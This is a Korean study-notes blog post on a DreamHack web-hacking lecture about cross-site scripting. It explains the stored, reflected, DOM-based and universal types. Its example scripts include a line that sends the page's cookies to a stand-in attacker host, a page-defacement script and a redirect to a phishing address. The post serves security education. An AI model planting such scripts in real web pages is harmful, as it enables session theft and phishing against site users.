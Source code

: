 ```yaml
---
layout: single
title:  "ClientSide : XSS"
categories: DreamHack
tag: [DreamHack, WebHacking, XSS]
toc: true
author_profile: false
---
```


# ClientSide : XSS

[ClientSide : XSS](https://dreamhack.io/lecture/courses/173)

클라이언트 사이드 취약점은 웹페이지 이용자를 대상으로 공격할 수 있는 취약점이다. 세션과 쿠키 정보를 탈취해 해당 계정을 악용할 수 있다.

오늘은 클라이언트 사이드 취약점의 대표적인 공격인 Cross Site Scripting(XSS)의 종류와 어떠한 상황에서 일어나는지 공부한다.


[Cross Site Scripting 의 약어는 CSS가 정상이지만 html을 꾸밀때 사용되는 CSS와 혼돈을 피하기 위해 XSS를 사용한다]

## XSS

XSS는 공격자가 웹 리소스에 악성 스크립트를 삽입해 이용자의 웹 브라우저에서 그 스크립트를 실행할 수 있습니다. 공격자는 스 스크립트를 이용해 세션 정보를 얻어 해당 계정으로 임의의 기능을 수행할 수 있다.

----
예) 

드림핵 사이트에서 XSS취약점 발견

공격자가 오리진 권한으로 악성 스크립트 삽입

이용자가 악성 스크립트가 포함된 페이지 방문

스크립트가 실행후 쿠키 및 세션 탈취

-----

해당 취약점은 SOP 보안정책이 등장하면서 힘들어 졌지만, 이를 우회ㅘ는 다양한 기술이 나오면서 XSS 공격은 지속되고 있다

### XSS 발생 예시와 종류

XSS 공격은 이용자가 삽입한 내용을 출력하는 기능에서 발생한다. XSS는 발생 형태에 따라서 다양한 종류로 구분된다.

|종류|설명|
|---|---|
|Stored XSS|악성 스크립트가 <U>서버</U>에 저장되고 <U>서버</U>의 응답에 담겨오는 XSS|
|Reflected XSS|악성 스크립트가 <U>URL</U>에 삽입되고서 <U>서버</U>의 응답에 담겨오는 XSS|
|DOM-based XSS| 악성스크립트가 <U>URL Fragment</U>에 삽입되는 XSS|
|Universal XSS|클라이언트의 브라우저 혹은 브라우저의 플러그인에서 발생하는 취약점으로 SOP우회하는 XSS|

### XSS 스크립트의 예시

1. 쿠키 및 세션 탈취 공격 코드
   
 ```html
<script>
    alert("hello");
    //"hello 문자열 alert 실행
    document.cookie;
    //현재 페이지의 쿠키 
    //(return type : string)
    alert(document.cookie);
    //현재 페이지의 쿠키를 alert 실행
    document.cookie = "name=test;";
    //쿠키 생성
    //new Image()는 이미지를 생성하는 함수, src는 이미지의 주소를 지정
    //"http://hacker.dreamhack.io/?cookie=현재페이지의 쿠키" 주소를 요청해 공격자 주소로 현재 페이지의 쿠키 요청
    new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;

</script>

   ```

2. 페이지 변조 공격 코드

```html
<script>
    document;
    // 이용자의 페이지 정보 접근
    document.write("Hacked By DreamHack !");
    //이용자의 페이지에 데이터를 삽입
</script>
```
3. 위치 이동 공격 코드

```html
<script>
    location.href = "http://hacker.dreamhack.io.phishing";
    //이용자의 위치를 변경
    //피싱 공격 등으로 사용됨
    
    window.open("hrrp://hacker.dreamhack.io/")
    //새 창 열기
</script>
```

### Stored XSS

Stored XSS는 서버의 데이터베이스 또는 파일 등의 형태로 저장된 악성 스크립트를 조회할 때 발생하는 XSS이다.

대표적으로 게시물과 댓글에 악성 스크립트를 포함해 업로드 하는 방식이 있다.

게시물의 내용을 그대로 출력하는 모듈일 경우 < script > 태그나 HTML 태그를 삽입해서 Stored XSS 발생시킬수 있다.

### Reflected XSS

Reflected XSS는 서버가 악성 스크립트가 담긴 요청을 출력할때 발생한다. 대표적으로 게시물을 조회하기 위한 검색창에서 스크립트를 포함하는 방식이 있다.

Reflected XSS 는 Stored XSS와 다르게 URL과 같은 이용자의 요청에서 발생한다. 공격을 유도하기 위해서는 타 이용자에게 악성 스크립트가 포함된 링크에 접속하도록 유도해야한다.

이용자에게 링크를 직접전달하는 방법은 이용자가 눈치챌 수 있기 때문에 주로 Click Jacking 또는 Open Redirect등 다른 취약점과 연계해서 사용한다